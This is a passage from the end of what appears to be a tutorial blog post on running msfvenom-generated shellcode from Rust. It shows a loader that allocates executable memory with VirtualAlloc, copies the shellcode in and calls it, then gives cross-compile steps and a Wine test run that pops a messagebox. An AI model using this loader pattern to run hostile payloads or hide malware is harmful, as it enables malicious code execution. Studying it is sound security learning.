 ```
            std::mem::size_of_val(&shellcode),
        );

        let func: unsafe fn() = std::mem::transmute(lpalloc);
        func();
    }
}

```

Key notes:
- `VirtualAlloc()` allows us to allocate memory with code execution enabled (`PAGE_EXECUTE_READWRITE`)
- `copy_nonoverlapping()` copies our shellcode into the memory allocated by `VirtualAlloc()`
- `let func: unsafe fn() = std::mem::transmute(lpalloc);` and `func();` executes the code pointed to by `lpalloc` (which is our shellcode)

Now compile the code (I am using Fedora so I have to cross-compile for Windows):

```
$ sudo dnf install mingw64-gcc mingw64-gcc-c++
...
$ rustup target add x86_64-pc-windows-gnu
...
$ cargo build --target x86_64-pc-windows-gnu
...
```

### Testing our shellcode

Since I am using Linux I need either a Windows VM or [Wine](https://www.winehq.org/) to run `sh.exe`:

```
$ wine target/x86_64-pc-windows-gnu/debug/sh.exe
002c:fixme:winediag:loader_init wine-staging 8.19 is a testing version containing experimental patches.
002c:fixme:winediag:loader_init Please mention your exact version when filing bug reports on winehq.org.
0088:fixme:wineusb:query_id Unhandled ID query type 0x5.
0088:fixme:hid:handle_IRP_MN_QUERY_ID Unhandled type 00000005
0088:fixme:hid:handle_IRP_MN_QUERY_ID Unhandled type 00000005
0088:fixme:hid:handle_IRP_MN_QUERY_ID Unhandled type 00000005
0088:fixme:hid:handle_IRP_MN_QUERY_ID Unhandled type 00000005
payload size: 367
```

Our messagebox will also pop up:

![messagebox]({{site.baseurl}}/assets/msf-msg.png)

References:
- [https://ivanitlearning.wordpress.com/2018/10/14/shellcoding-with-msfvenom/](https://ivanitlearning.wordpress.com/2018/10/14/shellcoding-with-msfvenom/)
- [http://0xdabbad00.com/2012/12/07/dep-data-execution-prevention-explanation/](http://0xdabbad00.com/2012/12/07/dep-data-execution-prevention-explanation/)
- [https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)
- [https://ivanitlearning.wordpress.com/2018/10/14/shellcoding-with-msfvenom/](https://ivanitlearning.wordpress.com/2018/10/14/shellcoding-with-msfvenom/)
- [https://github.com/microsoft/windows-rs](https://github.com/microsoft/windows-rs)
- [https://microsoft.github.io/windows-docs-rs/doc/windows/Win32/System/Memory/fn.VirtualAlloc.html](https://microsoft.github.io/windows-docs-rs/doc/windows/Win32/System/Memory/fn.VirtualAlloc.html)
- [https://doc.rust-lang.org/core/ptr/fn.copy_nonoverlapping.html](https://doc.rust-lang.org/core/ptr/fn.copy_nonoverlapping.html)